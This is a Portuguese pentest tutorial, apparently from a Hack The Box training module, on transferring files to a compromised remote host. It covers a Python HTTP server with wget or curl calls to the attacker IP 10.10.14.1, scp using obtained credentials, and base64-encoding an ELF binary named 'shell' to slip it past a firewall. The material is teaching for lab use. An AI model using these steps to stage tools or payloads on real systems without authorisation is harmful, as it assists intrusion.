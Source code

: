 Durante qualquer exercício de teste de penetração, é provável que precisemos transferir arquivos para o servidor remoto, como scripts de enumeração ou exploits, ou transferir dados de volta para nosso host de ataque. Embora ferramentas como o Metasploit com um shell Meterpreter nos permitam usar o comando `Upload` para carregar um arquivo, precisamos aprender métodos para transferir arquivos com um shell reverso padrão.

## Usando wget

Existem muitos métodos para fazer isso. Um método é executar um [servidor HTTP Python](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) em nossa máquina e, em seguida, usar `wget` ou `cURL` para baixar o arquivo no host remoto. Primeiro, vamos para o diretório que contém o arquivo que precisamos transferir e executamos um servidor HTTP Python nele:

```shell-session
casluxd@htb[/htb]$ cd /tmp
casluxd@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Agora que configuramos um servidor de escuta em nossa máquina, podemos baixar o arquivo no host remoto no qual temos a execução do código:

```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

Observe que usamos nosso IP `10.10.14.1` e a porta em que nosso servidor Python é executado `8000`. Caso o servidor remoto não possua `wget`, podemos utilizar `cURL`para baixar o arquivo:

```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

Observe que usamos o sinalizador `-o` para especificar o nome do arquivo de saída.

## Usando SCP

Outro método para transferir arquivos seria usar `scp`, desde que tenhamos obtido credenciais de usuário ssh no host remoto. Podemos fazê-lo da seguinte forma:

```shell-session
casluxd@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

Observe que especificamos o nome do arquivo local após `scp`, e o diretório remoto será salvo após `:`

## Usando Base64

Em alguns casos, podemos não conseguir transferir o arquivo. Por exemplo, o host remoto pode ter proteções de firewall que nos impedem de baixar um arquivo de nossa máquina. Nesse tipo de situação, podemos usar um truque simples para codificar o arquivo em [base64](https://linux.die.net/man/1/base64)`base64` no formato e, em seguida, podemos colar a string `base64` no servidor remoto e decodificá-la. Por exemplo, se quisermos transferir um arquivo binário chamado `shell`, podemos codificá-lo `base64` da seguinte maneira:

```shell-session
casluxd@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Agora, podemos copiar essa string`base64`, ir para o host remoto e usar `base64 -d` para decodificá-la e canalizar a saída para um arquivo:

```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Validando Transferências de Arquivos

Para validar o formato de um arquivo, podemos executar o comando [file](https://linux.die.net/man/1/file) nele:

```shell-session
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

Como podemos ver, quando executamos o comando `file` no arquivo `shell`, ele diz que é um binário ELF, o que significa que o transferimos com sucesso. Para garantir que não estragamos o arquivo durante o processo de codificação/decodificação, podemos verificar seu hash md5. Em nossa máquina, podemos rodar `md5sum` nela:

```shell-session
casluxd@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Agora, podemos ir para o servidor remoto e executar o mesmo comando no arquivo que transferimos:

```shell-session
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Como podemos ver, ambos os arquivos possuem o mesmo hash md5, significando que o arquivo foi transferido corretamente. Existem vários outros métodos para transferir arquivos.